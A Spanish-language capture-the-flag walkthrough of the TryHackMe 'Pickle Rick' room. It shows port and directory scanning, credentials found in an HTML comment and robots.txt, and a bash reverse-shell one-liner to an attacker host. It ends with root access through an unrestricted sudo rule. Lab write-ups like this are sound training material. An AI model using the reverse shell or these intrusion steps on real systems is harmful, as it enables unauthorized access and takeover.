

  THM : **Pickle Rick** 
  Difficulty : **Easy** 
  Room link : https://tryhackme.com/room/picklerick 

Es una máquina entretenida donde tenemos que buscar 3 banderas (ingredientes), empezamos con lo principal:

### Reconocimiento...

    sudo nmap -p- -sVC -sC --open -sS -vvv -n -Pn IP_VICT -oN scan.txt

No puede faltar el típico "nmap" donde obtenemos lo siguiente:

    Nmap scan report for 10.80.183.124
    Host is up, received user-set (0.0010s latency).
    Scanned at 2026-03-03 22:03:10 GMT for 8s
    Not shown: 65533 closed ports
    Reason: 65533 resets
    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: HEAD GET POST OPTIONS
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Rick is sup4r cool
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Solo 2 puertos, de todos modos nada más nos interesa el 80, así que nos vamos al navegador para examinar esa página web, al inspeccionar el código fuente nos topamos con lo siguiente:

    <!DOCTYPE html>
    <html lang="en">
    <head>
      <title>Rick is sup4r cool</title>
      <meta charset="utf-8">
      <meta name="viewport" content="width=device-width, initial-scale=1">
      <link rel="stylesheet" href="assets/bootstrap.min.css">
      
      
      
    </head>
    <body>
    
      

        

        <h1>Help Morty!</h1> 
        
Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!
 
        
I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
        I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!
 
      

    
      <!--
    
        Note to self, remember username!
    
        Username: R1ckRul3s
    
      -->
    
    </body>
    </html>

Una nota casi al pie de la página, oculta como comentario, un nombre de usuario `R1ckRul3s`, ¿Eso como para qué?, ni idea, igual procedemos a mandar a gobuster a que nos encuentre algo, seguimos buscado archivos o algun login para usar ese usuario...

    gobuster dir -u http://IP_MACHINE/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --no-error -s 200,301 -x .txt,.php,.html
Donde el bueno de gobuster nos arroja lo siguiente:

    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.80.183.124
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   400,403,404
    [+] User Agent:              gobuster/3.6
    [+] Extensions:              txt,php,html
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /index.html           (Status: 200) [Size: 1062]
    /login.php            (Status: 200) [Size: 882]
    /assets               (Status: 301) [Size: 315] [--> http://10.80.183.124/assets/]
    /portal.php           (Status: 302) [Size: 0] [--> /login.php]
    /robots.txt           (Status: 200) [Size: 17]
    /denied.php           (Status: 302) [Size: 0] [--> /login.php]
    /clue.txt             (Status: 200) [Size: 54]
    Progress: 873100 / 873104 (100.00%)
    ===============================================================
    Finished
    ===============================================================
Procedemos a revisar cada uno de esos archivos haciendo uso del navegador y de `curl http://10.80.183.124`

 - /login.php y /portal.php nos llevan al mismo lugar, un login donde
   nos piden usuario y contraseña 
   
 - /robots.txt nos da un texto que dice    `Wubbalubbadubdub`, ¿Qué es?
   ni idea
   
 - Los demás no nos muestran nada importante

Entonces, ahora tenemos un login, un usuario y creo que una contraseña, procedemos a ingresarlos y efectivamente eran correctos, pero ahora tenemos un... panel de comando?

Hagamos `ls` de toda la vida...

> Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

## Toma de control...
Ya tenemos el primer ingrediente, ahora toca movernos por todos lados con comandos, pero esta shell es algo incómoda de usar, movanos con una revershell, configuramos puerto de escucha con netcat y el payload con bash...
___
    nc -lvnp 1234 
___

    bash -c 'bash -i >& /dev/tcp/IP_MACHINE_ATTACKER/1234 0>&1'

___

Ok, fue exitoso, por supuesto, luego de varios intentos y de cambios en el payload, pero se logró, navegando por ahí encontramos que dentro de la carpeta `/home/rick` estaba otra bandera (ingrediente), pero no logramos llegar a la carpeta /root, ahora procedemos con un `sudo -l` para ver que podemos hacer...

    Connection received on 10.80.183.124 49692
    bash: cannot set terminal process group (1021): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ip-10-80-183-124:/var/www/html$ sudo -l
    sudo -l
    Matching Defaults entries for www-data on ip-10-80-183-124:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on ip-10-80-183-124:
        (ALL) NOPASSWD: ALL

Somos el usuario "www-data" y parase que podremos ejecutar un comando que nos permitirá hacer una **escalada vertical de privilegios UwU**, que ¿Por qué?, es claro, nos dice que podemos ejecutar cualquier comando sin contraseña, vamos por lo básico, un `sudo bash -i` o `sudo su`, ahora nadie podrá detenernos, podremos entrar y salir como dueño de la casa a cualquier lugar

## Conclusión

 - Se aprende a tener que rebuscar por todos lados, en cada rincón y lugar posible por migajas de información
 - Caulquier cosa puede servir, archivos residuales que se dejan por descuido o mala configuración de seguridad por parte de la victima, todo se puede aprovechar, incluso las amenazas por teléfono
 - No todos los comandos sirven para realizar una revershell, se debe saber qué se puede ejecutar y con qué lenguaje (Python, Bash, PHP, SQL...)
 - Cuida tus credenciales, no dejes archivos sueltos y no guardes tus contraseñas en cualquier lugar o web